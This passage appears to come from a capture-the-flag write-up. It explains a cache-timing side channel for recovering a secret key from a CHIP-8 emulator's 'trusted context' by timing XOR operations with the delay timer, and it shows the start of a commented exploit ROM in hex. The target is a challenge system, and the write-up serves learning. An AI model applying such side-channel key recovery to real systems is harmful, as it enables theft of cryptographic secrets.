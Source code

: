 We are going to ask the trusted context to perform `P xor S`, where `S` is the secret key, by putting `P` at position `I` and calling `0000`. In particular, the operation `0xFF xor S[k]` will be performed and put in cache. We can then **bruteforce** `S[k]` by computing `i xor S[k]` for `i` in [0, 255] and **counting the number of cycles** each of these XOR operations lasted.

Of course, we should reset the cache with the `00E1` instruction at each iteration to avoid any problems. This allows us to recover the secret key in 2560 encryptions worst case, but it will run pretty fast anyways since everything is run server-side (we'll just send our ROM exploit once).

CHIP-8 has two useful instructions for counting cycles, thanks to the **timer**:

```
FX07
    Vx = get_delay()
    Sets VX to the value of the delay timer.

FX15
    delay_timer(Vx)
    Sets the delay timer to VX.
```

The *delay timer* is simply a value that is decremented each cycle (and stays at 0 once it reaches it). So if we set the delay timer to some arbitrary value before performing a XOR operation, and then retrieve the value of the delay timer right after, we can use this latter value to know whether the operation was cached.

We have everything to build our exploit ROM. The following code is my commented exploit.

```llvm
; I pointing to stack (copied in privileged context)
0xae 0xa0
; v1 = 1 (useful for increments)
0x61 0x01

; Set the first 10 bytes of memory to 0
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e

0x62 0x00
```